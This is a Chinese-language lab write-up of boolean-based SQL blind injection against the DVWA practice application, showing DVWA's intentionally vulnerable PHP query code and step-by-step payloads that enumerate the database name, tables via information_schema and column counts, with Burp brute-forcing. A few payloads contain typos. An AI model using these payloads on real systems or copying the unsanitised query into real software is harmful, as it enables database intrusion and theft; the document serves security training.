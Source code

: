 # SQL盲注
## 漏洞描述
与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常是无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的SQL注入漏洞大多是SQL盲注。
## 手工盲注过程
1. 判断是否存在注入，注入是字符型还是数字型
2. 猜解当前数据库名
3. 猜解数据库中的表名
4. 猜解表中的字段名
5. 猜解数据
#
手工盲注就相当于你再询问一个人问题，而这个人只会说是或者不是，因此在询问的过程中这样询问，数据库名字的第一字母是不是a？通过这种询问从而一点一点将数据库的名字获取。
## 漏洞利用
## Low SQL Injection (Blind) Source
```
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```
从代码中可看出结果只会显示存在或者不存在。
- 存在
![image](https://user-images.githubusercontent.com/71583369/144703086-ac33bad2-f36b-4952-b5a5-617fd5db3c46.png)
- 不存在
![image](https://user-images.githubusercontent.com/71583369/144703097-03877ec4-8711-4232-9f83-d60574754638.png)
1. 判断是否存在注入，判断是字符型还是数字型注入
- 输入`1' and 1=1#`显示存在，输入`1' and 1=2#`显示不存在，判断为字符型注入
2. 猜解数据库名字，使用`length()`判断长度，构造`1' and length(database())=4#`,在不知道长度的情况下可以使用burp进行爆破
- 抓取数据包发送到爆破模块，长度的位置添加变量
![image](https://user-images.githubusercontent.com/71583369/144705355-8a77e260-3246-4cab-8efd-bfadc7290919.png)
- 查看爆破结果，数据库长度为4
![image](https://user-images.githubusercontent.com/71583369/144705266-dd7641f9-354e-44cd-99ce-ac0df26dcc60.png)
- 判断数据库名的第一个字母，构造`1' and ascii(substr(databse(),1,1))＝100 #`使用ascii值进行判断，然后再对照ascii表判断对应的字母
- 函数用法：`substr(string string,num start,num length);`
- `大写字母A~Z对应的ASCII码（十进制）为“65”~“90”`
- `小写字母a~z对应的百ASCII码（十进制）为"97"~“122”`
#
- 这里可以看住最小的值为65，最大值为122，我们构造一个数字的字典从65到122。
![image](https://user-images.githubusercontent.com/71583369/144706626-10208ad6-4e9a-4e31-ad12-0a029b34b978.png)
- 可以看到100的时候与其他的长度不一样，100对应的是d，可以判断第一个字母为d
![image](https://user-images.githubusercontent.com/71583369/144706481-9b7ea7d5-6d98-432a-a19c-f32ff2c362fc.png)
- 判断第二字符，只需要修改为`1' and ascii(substr(database(),2,1))＝100 #`即可，后面的以此类推，分别取不同的位置，爆出数据库名为dvwa。
3. 猜解表名
- 判断数据库中有几个表，构造`1' and (select count (table_name) from information_schema.tables where table_schema=database() )=2 #`
![image](https://user-images.githubusercontent.com/71583369/144706910-7bc6433e-9cb5-468e-afe0-53e646de0980.png)
#
- 说明有两张表，判断第一张表的长度`1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 # `
![image](https://user-images.githubusercontent.com/71583369/144707338-e8f14150-899f-4592-a07f-3e59f783f26c.png)
#
- 说明长度为9
- 判断第一个字母，构造`1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))＝103 #`
![image](https://user-images.githubusercontent.com/71583369/144707480-8ba0e7d5-56e9-49f0-b9da-585a00ab6548.png)
#
- 判断第一个字母为g，以此类推，第一个表为guestbook
- 判断第二张表长度，构造`1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2))=5 #`
- 判断第一个字母，构造`1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=117 #`
- 第二张表名为users
4. 猜字段名
- 猜字段数`1' and (select count(column_name) from information_schema.columns where table_name= ’users’)=8 # `,为8个字段
![image](https://user-images.githubusercontent.com/71583369/144708090-e719b6b7-b8e4-483f-a95d-ad763e08003c.png)
- 第一个字段长度`1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=7 #`
![image](https://user-images.githubusercontent.com/71583369/144708264-f649c9ef-7eac-4eae-9986-aa954362bc78.png)
#
长度为7,后续不再演示。
## 参考链接
https://www.cnblogs.com/karentec/articles/10621633.html

















